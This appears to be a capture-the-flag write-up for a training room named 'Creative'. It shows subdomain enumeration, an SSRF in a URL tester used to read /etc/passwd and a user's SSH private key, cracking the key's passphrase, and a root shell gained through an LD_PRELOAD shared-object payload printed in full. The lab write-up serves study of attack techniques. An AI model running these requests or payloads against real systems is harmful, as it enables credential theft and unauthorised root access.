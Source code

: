 ```yaml
---
title: Creative
published: 2024-12-24
description: 'Submit both the user and root flags to complete the room.'
image: './Creative-Images/cover.jpeg'
tags: ['Subdomain' ,'SSH' ,'URL', 'Hash']
category: 'Web Exploitation'
draft: false 
lang: ''
---
```


## Enumeration
```sh
➜ nmap -sCV 10.10.36.137
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-24 11:03 EST
Nmap scan report for creative.thm (10.10.36.137)
Host is up (0.11s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 a0:5c:1c:4e:b4:86:cf:58:9f:22:f9:7c:54:3d:7e:7b (RSA)
|   256 47:d5:bb:58:b6:c5:cc:e3:6c:0b:00:bd:95:d2:a0:fb (ECDSA)
|_  256 cb:7c:ad:31:41:bb:98:af:cf:eb:e4:88:7f:12:5e:89 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Creative Studio | Free Bootstrap 4.3.x template
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.45 seconds
```

>  - Port 22 :
    22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.7
    (Ubuntu Linux; protocol 2.0)
>  - Port 80 :
    80/tcp open http nginx 1.14.0 (Ubuntu)

Let’s check the HTTP port ( port number 80 ) by going to →
> - When trying to access Port 80 ( http://creative.thm )
![Creative Page](./Creative-Images/Creative.png)

```c
127.0.0.1       localhost
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters

10.10.231.114   creative.thm
```

> Let’s do a Sub-Domain Brute Force ( FFUF )

```sh
➜  ~ gobuster vhost -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://creative.thm --append-domain
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://creative.thm
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: beta.creative.thm Status: 200 [Size: 591]
```
> - Now after adding the Sub-Domain entry to /etc/hosts
> - Let’s check the page →
![Beta Page](./Creative-Images/beta.png)

In browser we see the webpage for Beta URL Tester with an input box and submit button

> - Enter the url http://localhost —( localhost is creative.thm the target) into the input box. we get the HTML of the creative.thm website:
![Localhost](./Creative-Images/localhost.png)

lets try http://localhost:port to see if there are any other HTTP services that are not accessible from outside?

We going to use Burps intruder to scan through the top 50 ports to see if any the ports are accessible.

google 50 common ports https://www.geeksforgeeks.org/50-common-ports-you-should-know/

- make a text file with the top 50 tcp ports

> - Now open Burp Suite, turn on foxy proxy — firefox extension — set to port 8080 and 127.0.0.1
> - Turn on intercept in burp and capture the request http://localhost:port
> - Now right click request and send to intruder
> - Change url=http://localhost:§80§/ at the bottom of the request. The § can be added from the left side.
![Burp](./Creative-Images/burp.png)
> - Click on payloads and load thetext file created for top 50 ports — top_50_tcp_ports. Then start attack
> - Can see from the attack that port 1337 has a different length to all others and when clicked on the response it shows details — the directory listing for the target. So port 1337 is the port we can use to find more info about the target.
![1337](./Creative-Images/1337.png)

## SSH

**STAP 1**
- Now in the browser disable foxy proxy and on the webpage for beta.creative.thm input ```http://localhost:1337/etc/passwd``` and submit For show ```Users``` in THis Server :
![Passwd](./Creative-Images/passwd.png)

**STEP 2**
- Now search for the user saad id_rsa private ssh key. Input ```http://localhost:1337/home/saad/.ssh/id_rsa``` and submit:
![id_rsa](./Creative-Images/id_rsa.png)

**STEP 3**
> - Now to find the passphrase so we can ssh into the target
> - change the permissions of id_rsa to be more secure
> - Locate ssh2john — found its in the location ```/usr/share/john/ssh2john.py```
> - Run that ```ssh2john``` with python and save to file password.hash
> - ```python3 /usr/share/john/ssh2john.py id_rsa > password.hash```

**STEP 4**
- So now ssh into the target with the cmd ```ssh -i id_rsa saad@10.10.59.12```

```sh
➜ ssh -i id_rsa saad@10.10.36.137          
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-135-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue 24 Dec 2024 03:18:44 PM UTC

  System load:  0.0               Processes:             120
  Usage of /:   57.5% of 8.02GB   Users logged in:       1
  Memory usage: 54%               IPv4 address for eth0: 10.10.36.137
  Swap usage:   0%

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

58 updates can be applied immediately.
33 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue Dec 24 14:56:51 2024 from 10.21.102.133
saad@m4lware:~$ id
uid=1000(saad) gid=1000(saad) groups=1000(saad)
```
> - can see file .bash_history. Lets check that out
```sh
saad@m4lware:~$ cat .bash_history 
whoami
pwd
ls -al
ls
cd ..
sudo -l
echo "saad:M*************************" > creds.txt
rm creds.txt
sudo -l
whomai
whoami
ls -al
```
## Privilege Escalation

 - First thing well try is sudo -l with the password found
 ```sh
 saad@m4lware:~$ sudo -l
[sudo] password for saad: 
Matching Defaults entries for saad on m4lware:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, 
    env_keep+=LD_PRELOAD

User saad may run the following commands on m4lware:
    (root) /usr/bin/ping
```

 - success found user saad can run /usr/bin/ping as root
 - Also can see ```env_keep+=LD_PRELOAD```

> - Search in Google *Linux Privilege Escalation using LD_Preload* 
> - [I Found This Article](https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/) 
> - Let’s generate a C-program file inside /tmp directory.

```sh
saad@m4lware:~$ cd /tmp
saad@m4lware:/tmp$ nano shell.c
```
> - Put This Shell :
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```
> - Now Put This Command :
```sh
saad@m4lware:/tmp$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
shell.c: In function ‘_init’:
shell.c:6:1: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
    6 | setgid(0);
      | ^~~~~~
shell.c:7:1: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
    7 | setuid(0);
      | ^~~~~~
saad@m4lware:/tmp$ ls -al shell.so
-rwxrwxr-x 1 saad saad 14760 Dec 24 16:32 shell.so
saad@m4lware:/tmp$ sudo LD_PRELOAD=/tmp/shell.so ping
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```

**GOOD LUCK**